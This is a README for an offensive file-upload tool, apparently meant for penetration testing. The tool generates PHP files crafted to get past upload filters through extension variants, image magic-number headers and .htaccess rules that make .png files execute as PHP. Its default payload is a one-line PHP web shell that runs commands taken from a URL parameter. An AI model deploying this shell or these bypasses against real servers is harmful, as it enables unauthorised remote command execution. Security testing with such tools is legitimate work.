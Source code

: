 # generate-file-upload
Generate some payload to bypass restriction when you perform a file upload

Generate in `Payloads/` all extension for PHP

## Installation & Usage

```
git clone https://github.com/LighTend3r/generate-file-upload.git
cd ./generate-file-upload
```
To install it, write the command above

```
python3 upfile.py -h
```
If you want help to understand the programme

-----

## Exemple of usage :
```
python3 upfile.py
```
Generate all extension in PHP


```
python3 upfile.py -b
```
Generate all bypass for PHP


```
python3 upfile.py -n test -p test -ext php
```
Generate file named `test.php` which contain `test`


```
python3 upfile.py -b -m png
```
Generate all files bypass for PHP, which contain `magicNumber + payload`


```
python3 upfile.py -ext png -ht png
```
Generate `.htaccess` which allow execution of php with extension .png and create `paylaod.png`

-----

## Options

Default name : `payload`

Default file : `PHP`

Default payload : `<?php system($_GET["cmd"]); ?>`

```
usage: upfile.py [-h] [-d] [-p <payload>] [-f {php}] [-ext <ext>] [-b] [-n <name>] [-m {png,jpg}] [-ht <ext>]

Generate some payload to bypass restriction when you perform a file upload

options:
  -h, --help            show this help message and exit
  -d, --debug           Seen the debug to see the process
  -p <payload>, --payload <payload>
                        The payload in the files
  -f {php}, --file {php}
                        The type of the files
  -ext <ext>, --extension <ext>
                        Generate the payload with specific extension
  -b, --bypass          Generate some payload to bypass the restriction
  -n <name>, --name <name>
                        Name of the file
  -m {png,jpg}, --magic {png,jpg}
                        Magic Header, add the magics numbers before the payload
  -ht <ext>, --htaccess <ext>
                        Creates in addition a .htaccess file, which allow execution of php whith extension that you
                        have chosen
   ```         
